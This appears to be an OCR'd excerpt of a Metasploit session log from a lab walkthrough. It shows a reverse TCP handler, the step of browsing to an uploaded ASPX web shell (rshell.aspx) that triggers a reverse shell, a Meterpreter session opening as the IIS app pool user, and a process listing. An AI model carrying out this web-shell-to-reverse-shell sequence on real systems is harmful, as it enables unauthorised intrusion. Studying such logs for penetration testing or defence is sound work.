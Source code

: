     [*] Started reverse TCP handler on 192.168.0.99:444
    Navigate to the remote payload in the browser by visiting http://192.168.0.102/rshell.aspx. This should activate     the reverse shell.
    msf exploit(handler) > 
    [*] Sending stage (179267 bytes) to 192.168.0.102
    [*] Meterpreter session 16 opened (192.168.0.99:4444 -> 192.168.0.102:49158) at 2018-07-26 23:17:38 -0400
    
    msf exploit(handler) > sessions
    
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      16  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49158     (192.168.0.102)
    
    msf exploit(handler) > sessions 16
    [*] Starting interaction with 16...
    
    meterpreter > ps
    
    Process List
    ============
    
     PID   PPID  Name                  Arch  Session  User                     Path
     ---   ----  ----                  ----  -------  ----                     ----
     0     0     [System Process]                                              
     4     0     System                                                        
     240   4     smss.exe                                                      
     336   328   csrss.exe                                                     
     388   328   wininit.exe                                                   
     396   380   csrss.exe                                                     
     444   380   winlogon.exe                                                  
     488   388   services.exe                                                  
     496   388   lsass.exe                                                     
     504   388   lsm.exe                                                       
     608   488   svchost.exe                                                   
     636   488   svchost.exe                                                   
     672   488   svchost.exe                                                   
     724   488   svchost.exe                                                   
     792   444   LogonUI.exe                                                   
     824   488   svchost.exe                                                   
     876   488   svchost.exe                                                   
     916   488   svchost.exe                                                   
     976   488   sppsvc.exe                                                    
     988   724   audiodg.exe           x86   0                                 
     1136  488   svchost.exe                                                   
     1248  488   spoolsv.exe                                                   
     1284  488   svchost.exe                                                   
     1356  488   vmicsvc.exe                                                   
     1376  488   vmicsvc.exe                                                   
     1404  488   vmicsvc.exe                                                   
     1444  488   vmicsvc.exe                                                   
     1472  488   vmicsvc.exe                                                   
     1500  488   svchost.exe                                                   
     1548  488   svchost.exe                                                   
     1664  488   FileZilla Server.exe                                          
     1736  488   Tomcat7.exe                                                   
     1764  336   conhost.exe                                                   
     1804  488   vmtoolsd.exe                                                  
     1836  488   svchost.exe                                                   
     1880  488   wlms.exe                                                      
     2248  608   WmiPrvSE.exe                                                  
     2436  488   dllhost.exe                                                   
     2488  488   dllhost.exe                                                   